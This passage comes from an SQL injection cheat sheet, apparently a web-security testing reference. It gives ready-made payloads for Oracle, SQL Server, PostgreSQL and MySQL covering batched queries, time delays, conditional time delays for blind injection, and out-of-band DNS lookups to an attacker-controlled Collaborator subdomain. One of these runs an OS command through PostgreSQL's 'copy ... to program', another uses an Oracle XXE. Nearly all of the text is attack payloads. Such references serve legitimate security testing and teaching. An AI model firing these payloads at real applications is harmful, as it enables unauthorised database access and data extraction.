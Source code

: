 | Database   | Payload                           |
|------------|-----------------------------------|
| Oracle     | Does not support batched queries. |
| Microsoft  | QUERY-1-HERE; QUERY-2-HERE        |
| PostgreSQL | QUERY-1-HERE; QUERY-2-HERE        |
| MySQL      | QUERY-1-HERE; QUERY-2-HERE        |

### Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Database   | Payload                             |
|------------|-------------------------------------|
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT sleep(10)`                    |

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

| Database   | Payload                                                                                                        |
|------------|----------------------------------------------------------------------------------------------------------------|
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`                                                                   |

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Database   | Payload                                                                                                                                                                                                  |
|------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Oracle     | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: |
|            | SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual            |
|            | The following technique works on fully patched Oracle installations, but requires elevated privileges:                                                                                                   |
|            | SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')                                                                                                                           |
| Microsoft  | exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'                                                                                                                                   |
| PostgreSQL | copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'                                                                                                                          |
| MySQL      | The following techniques work on Windows only:                                                                                                                                                           |
|            | LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')                                                                                                                                             |